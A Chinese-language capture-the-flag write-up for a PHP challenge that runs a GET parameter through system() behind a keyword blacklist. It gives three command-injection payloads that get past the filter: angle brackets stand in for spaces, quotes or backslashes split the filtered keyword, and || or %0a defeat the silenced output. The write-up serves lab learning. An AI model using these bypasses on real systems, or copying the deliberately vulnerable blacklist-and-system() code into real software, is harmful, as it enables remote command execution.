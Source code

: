 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:59:23
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

空格

数字

$

*

more

less

head

sort

tail

同样无回显





### 第一种

同上一题

利用<绕过空格

利用''绕过字母

```
?c=ls||
```

![image-20250403153555276](./assets/image-20250403153555276.png)

```
?c=tac<fl''ag.php||
```

![image-20250403153637344](./assets/image-20250403153637344.png)





### 第二种

利用<>绕过空格

```
?c=tac<>fl''ag.php||
```

![image-20250403153713498](./assets/image-20250403153713498.png)





### 第三种

利用%0a绕过无回显

利用\绕过字母

```
?c=tac<>fl\ag.php%0a
```

![image-20250403153949482](./assets/image-20250403153949482.png)
